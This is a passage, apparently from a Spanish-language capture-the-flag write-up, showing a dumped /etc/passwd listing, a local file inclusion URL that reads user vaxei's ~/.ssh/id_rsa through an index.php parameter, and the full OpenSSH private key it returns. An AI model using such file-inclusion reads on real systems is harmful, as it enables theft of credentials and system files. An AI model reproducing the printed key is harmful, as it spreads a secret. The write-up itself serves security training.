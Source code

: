 ```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
vaxei:x:1001:1001:,,,:/home/vaxei:/bin/bash
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
luisillo:x:1002:1002::/home/luisillo:/bin/sh
```

Vemos que hay 2 usuarios, por lo que probaremos a ver si alguno tiene algun `id_rsa`.

```
URL = http://<IP>/index.php?secret=/home/vaxei/.ssh/id_rsa
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvbN4ZOaACG0wA5LY+2RlPpTmBl0vBVufshHnzIzQIiBSgZUED5Dk
2LxNBdzStQBAx6ZMsD+jUCU02DUfOW0A7BQUrP/PqrZ+LaGgeBNcVZwyfaJlvHJy2MLVZ3
tmrnPURYCEcQ+4aGoGye4ozgao+FdJElH31t10VYaPX+bZX+bSxYrn6vQp2Djbl/moXtWF
ACgDeJGuYJIdYBGhh63+E+hcPmZgMvXDxH8o6vgCFirXInxs3O03H2kB1LwWVY9ZFdlEh8
t3QrmU6SZh/p3c2L1no+4eyvC2VCtuF23269ceSVCqkKzP9svKe7VCqH9fYRWr7sssuQqa
OZr8OVzpk7KE0A4ck4kAQLimmUzpOltDnP8Ay8lHAnRMzuXJJCtlaF5R58A2ngETkBjDMM
2fftTd/dPkOAIFe2p+lqrQlw9tFlPk7dPbmhVsM1CN+DkY5D5XDeUnzICxKHCsc+/f/cmA
UafMqBMHtB1lucsW/Tw2757qp49+XEmic3qBWes1AAAFiGAU0eRgFNHkAAAAB3NzaC1yc2
EAAAGBAL2zeGTmgAhtMAOS2PtkZT6U5gZdLwVbn7IR58yM0CIgUoGVBA+Q5Ni8TQXc0rUA
QMemTLA/o1AlNNg1HzltAOwUFKz/z6q2fi2hoHgTXFWcMn2iZbxyctjC1Wd7Zq5z1EWAhH
EPuGhqBsnuKM4GqPhXSRJR99bddFWGj1/m2V/m0sWK5+r0Kdg425f5qF7VhQAoA3iRrmCS
HWARoYet/hPoXD5mYDL1w8R/KOr4AhYq1yJ8bNztNx9pAdS8FlWPWRXZRIfLd0K5lOkmYf
6d3Ni9Z6PuHsrwtlQrbhdt9uvXHklQqpCsz/bLynu1Qqh/X2EVq+7LLLkKmjma/Dlc6ZOy
hNAOHJOJAEC4pplM6TpbQ5z/AMvJRwJ0TM7lySQrZWheUefANp4BE5AYwzDNn37U3f3T5D
gCBXtqfpaq0JcPbRZT5O3T25oVbDNQjfg5GOQ+Vw3lJ8yAsShwrHPv3/3JgFGnzKgTB7Qd
ZbnLFv08Nu+e6qePflxJonN6gVnrNQAAAAMBAAEAAAGADK57QsTf/priBf3NUJz+YbJ4NX
5e6YJIXjyb3OJK+wUNzvOEdnqZZIh4s7F2n+VY70qFlOtkLQmXtfPIgcEbjyyr0dbgw0j4
4sRhIwspoIrVG0NTKXJojWdqTG/aRkOgXKxsmNb+snLoFPFoEUHZDjpePFcgyjXlaYmZ0G
+bzNv0RNgg4eWZszE13jvb5B8XtDzN4pkGlGvK1+8bInlguLmktQKItXoVhhokGkp4b+fu
7YjDiaS4CyWsxX50wG/ZMgYBwFLRbCDUUdKZxsmCbreHxLKT/sae64E2ahuBSckYZlIzTd
2lp27EOOPvdPlt9gny83JuFHBLChMd4sHq/oU8vGAiGnIvOCWs4wMArbpJQ+EALJk3GYvh
oqWp3Q4N4F1tmwlrbqX2KP2T5yB+rLoBxfJwLELZlzd+O8mfP9Yknaw2vVYpUixUglNWHJ
ZnmN1uAScPAd1ZNvIkPm6IPcThj1hVCkFXgWjQn6NdJj+NGNWcBeUrxBkH0vToD7gfAAAA
wQCvSzmVYSxpX3b9SgH+sHH5YmOXR9GSc8hErWMDT9glzcaeEVB3O2iH/T+JrtUlm4PXiP
kwFc5ZHHZTw2dd0X4VpE02JsfkgwTEyqWRMcZHTK19Pry2zskVmu6F94sOcN8154LeQBNx
gT22Dr/KJA71HkOH7TyeGnlsmBtZoa3sqp3co9inkccnhm1KUeduL4RcSysDqXYbBUtNB6
G1l8HYysm8ISCsoR4KSgxmC5lqCMfBy7z/6nOX7sm5/kP+JMsAAADBAO8TiHrYTl/kGsPM
ITaekvQUJWCp+FCHK07jwzNp4buYAnO3iGvhVQpcS7UboD8/mve207e97ugK4Nqc68SzSu
bDgAnd4FF3NLoXP/qPZPaPS1FRl0pY0jHyB+U6RELgaI34i9AierMc+4M0coUMZvxqay3o
t8jRhz08jiwFifszwNN7taclmNEfkrKBY7nlbxFRd2XLjknZHFUOFzOFWdtXilQa+y6qJ6
lKtE9KWnQgIgZB9Wt+M3lsEVWEdQKN1wAAAMEAyyEsmbLUzkBLMlu6P4+6sUq8f68eP3Ad
bJltoqUjEYwe9KOf07G15W2nwbE/9WeaI1DcSDpZbuOwFBBYlmijeHVAQtJWJgZcpsOyy2
1+JS40QbCBg+3ZcD5NX75S43WvnF+t2tN0S6aWCEqCUPyb4SSQXKi4QBKOMN8eC5XWf/aQ
aNrKPo4BygXUcJCAHRZ77etVNQY9VqdwvI5s0nrTexbHM9Rz6O8T+7qWgsg2DEcTv+dBUo
1w8tlJUw1y+rXTAAAAEnZheGVpQDIzMWRlMDI2NmZmZA==
-----END OPENSSH PRIVATE KEY-----
```
